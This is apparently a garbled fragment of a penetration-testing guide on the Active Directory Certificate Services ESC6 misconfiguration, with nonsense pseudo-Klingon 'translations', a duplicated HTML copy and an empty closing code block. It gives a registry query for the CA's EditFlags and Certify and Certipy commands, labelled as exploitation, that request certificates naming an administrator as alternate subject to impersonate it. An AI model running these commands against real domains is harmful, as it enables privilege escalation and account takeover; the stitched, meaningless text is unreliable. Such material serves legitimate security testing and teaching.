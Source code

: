 **ghItlh**:
Qapvam qatlh **remote registry access** vItlhutlh, vaj, **alternatIv** qutlh vItlhutlh. 

**HTML**:

<p><strong>ghItlh</strong>:</p>
<p>Qapvam qatlh <strong>remote registry access</strong> vItlhutlh, vaj, <strong>alternatIv</strong> qutlh vItlhutlh.</p>
```bash
reg.exe query \\<CA_SERVER>\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<CA_NAME>\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags
```
Tools like [**Certify**](https://github.com/GhostPack/Certify) and [**Certipy**](https://github.com/ly4k/Certipy) are capable of detecting this misconfiguration and exploiting it:

**Klingon Translation:**

[**Certify**](https://github.com/GhostPack/Certify) jeDlI'pu' [**Certipy**](https://github.com/ly4k/Certipy) 'e' vItlhutlh. vaj vItlhutlh 'e' vItlhutlh je 'e' vItlhutlh.
```bash
# Detect vulnerabilities, including this one
Certify.exe find

# Exploit vulnerability
Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:User /altname:localadmin
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User -upn administrator@corp.local
```
To alter these settings, assuming one possesses **domain administrative** rights or equivalent, the following command can be executed from any workstation:

```
```